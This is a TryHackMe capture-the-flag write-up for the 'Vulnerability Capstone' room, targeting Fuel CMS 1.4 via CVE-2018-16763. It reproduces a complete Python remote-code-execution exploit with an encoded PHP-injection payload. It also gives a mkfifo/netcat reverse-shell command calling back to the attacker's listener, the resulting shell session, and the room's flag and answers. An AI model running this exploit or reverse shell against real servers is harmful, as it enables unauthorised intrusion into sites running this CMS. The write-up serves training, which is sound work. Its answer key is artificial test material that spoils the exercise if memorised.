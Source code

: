 ```yaml
---
title: Vulnerability Capstone
author: CYB3RM3
name: CYB3RM3 | Vulnerability Capstone
date: 2021-09-25 20:23:24 +0100
categories: [TryHackMe, Web]
tags: [Web]
---
```



THM Room [https://tryhackme.com/room/vulnerabilitycapstone](https://tryhackme.com/room/vulnerabilitycapstone)


## TASK 1 : Introduction
### Let's get hacking
No Answer

## TASK 2 : Exploit the Machine (Flag Submission) 
### Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.
No Answer

### What is the name of the application running on the vulnerable machine ?

Here is what we get when going to the ip adress :

![Fuel CMS](/images/thm/vulnerabilitycapstone/vulnerabilitycapstone_1.png)
_Fuel CMS_

Answer : Fuel CMS 

### What is the version number of this application ?
Answer : 1.4

### What is the number of the CVE that allows an attacker to remotely execute code on this application? Format: CVE-XXXX-XXXXX

Googling the application Fuel CMS 1.4 give us the CVE for RCE.

Answer : CVE-2018-16763

### Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability. Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

I Search for CVE-2018-16763 on google and i got a python3 script <https://gist.github.com/kriss-u/8e1b44b1f4e393cf0d8a69117227dbd2> for this RCE :

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

# Updated by Krishna Upadhyay for Python 3

import requests
import urllib


url = "http://10.0.2.29/structure/index.php"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    # xxxx = raw_input('cmd:') # python 2
    xxxx = input('cmd:') # python 3
    # quoted_xxxx = urllib.quote(xxxx) # python 2
    quoted_xxxx = urllib.parse.quote(xxxx) # python 3
    full_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quoted_xxxx+"%27%29%2b%27"
    # proxy = {"http":"http://127.0.0.1:8080"}
    r = requests.get(full_url) #, proxies=proxy)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)
    # print r.text[0:dup] # python 2
    # print(r.text[0:dup]) # python 3
    t = r.text[0:dup]
    div_position = t.find("<div ")
    print(t[0:div_position])
```

No Answer

### What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

From the script found above, i just need to rewrite the URL in my case http://10.10.98.161 and set up a listener on port 8888 for example before launching the script. We get a command prompt waiting input where we need to set the command to ask a shell :

```console
root@ip-10-10-121-248:~/Desktop# python3 exploit.py
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.121.248 8888 >/tmp/f
```
{: .nolinono }

Then we have on the listener side :

```console
root@ip-10-10-121-248:~/Desktop# nc -lnvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
Connection from 10.10.98.161 35362 received!
/bin/sh: 0: can't access tty; job control turned off
$ cat /home/ubuntu/flag.txt
THM{ACKME_BLOG_HACKED}
```
{: .nolinono }

Answer : THM{ACKME_BLOG_HACKED}